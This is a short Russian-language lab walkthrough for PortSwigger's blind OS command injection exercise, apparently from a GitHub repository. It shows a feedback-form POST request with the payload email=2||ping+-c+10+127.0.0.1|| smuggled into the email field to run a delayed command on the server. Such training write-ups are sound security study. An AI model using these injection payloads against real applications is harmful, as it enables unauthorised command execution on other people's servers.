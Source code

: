 По заданию известно, что уязвимость содержится на странице обратной связи, зайдем и поймем, какой запрос к веб-серверу она выполняет
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/2.%20Blind%20OS%20command%20injection%20with%20time%20delays/pics%20for%20walktrough/1.png)
Получаем запрос следующего вида (прошу прощения за отсутсвие скрина)
```
POST /feedback/submit
...
srf=GwySmnt57CrVics3M4lDx3qhfFLk7nYl&name=1&email=2@2&subject=3&message=4
```

Последовательно перебираем параметры, которые могут быть уязвимы, и находим, что параметр emaei является уязвимым. Впишем в него команду, которая имеет параметр запуска через определенное время, и установим данный параметр в 10 секунд - `email=2||ping+-c+10+127.0.0.1||`  - не забываем про URL кодировку!
Соответсвенно, наш запрос будет иметь вид
```
POST /feedback/submit
...
csrf=GwySmnt57CrVics3M4lDx3qhfFLk7nYl&name=1&email=2||ping+-c+10+127.0.0.1||&subject=3&message=4
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/4.%20OS%20command%20injection/2.%20Blind%20OS%20command%20injection%20with%20time%20delays/pics%20for%20walktrough/3.png)
Поздравляю! Лабораторная работа выполнена и мы успешно выполнили команду на сервере с отложенным запуском через веб-приложение
